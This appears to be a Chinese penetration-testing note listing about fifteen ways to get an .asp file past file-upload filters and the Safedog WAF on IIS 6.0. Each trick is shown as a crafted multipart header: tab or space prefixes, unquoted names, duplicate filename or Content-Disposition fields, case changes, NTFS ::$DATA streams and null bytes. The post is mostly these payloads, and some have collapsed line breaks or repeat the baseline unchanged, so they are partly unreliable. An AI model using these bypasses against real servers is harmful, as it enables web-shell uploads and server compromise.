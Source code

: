 ```yaml
---
title: 上传文件的各种套路
date: 2017-09-11 17:32:30
tags: 
    - 渗透
categories: 渗透
---
```


原始默认状态：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破0，文件名前缀加[0x09]绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”[0x09]backlion.asp”Content-Type: text/html

突破1，文件名去掉双引号绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=backlion.aspContent-Type: text/html

突破2，添加一个filename1的文件名参数，并赋值绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”;filename1=”test.jpg”Content-Type: text/html

突破3， form变量改成f+orm组合绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: f+orm-data; name=”filepath”;filename=”backlion.asp”Content-Type: text/html

突破4 ，文件名后缀大小写绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.Asp”Content-Type: text/html

突破5 ，去掉form-data变量绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破6，在Content-Disposition:后添加多个空格 或者在form-data;后添加多个空格绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data ; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data ; name=”filepath”; filename=”baclion.asp”Content-Type: text/html


突破7 ，backlion.asp . (空格+.)绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp .”Content-Type: text/html

突破8 ，“回车换行，绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

突破9 ，NTFS流 在文件名后加::$DATA绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp::$DATA\0x00\fuck.asp0x00.jpg”Content-Type: text/html
突破10， 经过对IIS 6.0的测试发现，其总是采用第一个Content-Disposition中的值做为接收参数，而安全狗总是以最后一个Content-Disposition中的值做为接收参数。因此尝试构造如下请求[上传backlion.asp成功]：

    Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”—————————–15377259221471Content-Disposition: form-data; name=”FileUploadName”; filename=”backlion.txt”Content-Type: application/octet-streamContent-Disposition: form-data; name=”FileUploadName”; filename=”backlion.asp”Content-Disposition: form-data;name=”FileUploadName”; filename=”backlion.asp”

突破11，将Content-Type和ConTent-Disposition调换顺序位置绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Type: text/htmlConTent-Disposition: form-data; name=”filepath”; filename=”backlion.asp”

突破12，在文件名前缀加空格（tab键可替换）绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”filepath”; filename= “backlion.asp”Content-Type: text/html

突破13，在form-data加空格绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data; name=”uploaded”; filename=”backlion.asp”Content-Type: text/html
突破14，在form-data的前后加上+绕过：

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: +form-data; name=”filepath”; filename=”backlion.asp”Content-Type: text/html

or:

    ——WebKitFormBoundary2smpsxFB3D0KbA7DContent-Disposition: form-data+; name=”filepath”; filename=”backlion.asp”Content-Type: text/html


